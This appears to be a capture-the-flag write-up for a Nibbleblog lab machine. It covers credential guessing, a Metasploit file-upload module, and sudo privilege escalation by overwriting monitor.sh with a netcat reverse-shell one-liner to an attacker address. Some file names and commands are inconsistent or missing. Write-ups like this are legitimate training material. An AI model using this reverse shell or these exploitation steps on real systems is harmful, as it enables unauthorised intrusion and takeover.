 Beyond the basic RHOST and LHOST information, the exploit needs User login information and a TargetURL. The Target url is easy enough however we don’t have any login information.

***

### Gaining Access
#### Guessing Login Credentials
So, I started with using hydra to guess passwords for me. I did default with admin as the user as a guess. I used the command: ``

I found that nibbleblog rate limits guesses. At 5 incorrect guess it locks you out for 5 minutes. At this point, I had a couple choices to make. I could run a rate limited hydra command or I could try some targeted guesses.

I did some targeted guessing and after about 5 minutes, I guessed admin:nibbles

#### msfconsole
Now that I have all the information I needed I was able to use the handy metasploit module exploit/multi/http/nibbleblog_file_upload.

After running the command, I could access the target machine as nibbler. Looking at the /home/nibbler directory, I found user flag file.

***

### Escalating Privileges
#### sudo
As a matter of course, I always run sudo -l when I need to escalate my privileges. It's an easy check and can be a quick KO. Sure enough, there was a allowed command:  
`sudo /home/nibbler/personal/stuff/monitor.sh`

If you look at the /home/nibbles directory, you'll notice a tar file named personal.tar. You can expand this file with:  
`unzip pernsonal.zip`

#### Reverse Shell
Once expanded, you can navigate to /home/nibble/personal/stuff and modify monitor.sh.

I wiped the file with:  
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <att IP> <att port> >/tmp/f" > monitor.sh`

I could have just appended the line however I was returning errors when I tried running it normally. Instead of trying to debug I just over wrote it. In a real scenario I would have made a copy of the file before messing with it.

Finally I set up a listener on my machine with:  
`nc -lvnp 4443`  
`sudo /home/nibbler/personal/stuff/monitor.sh`
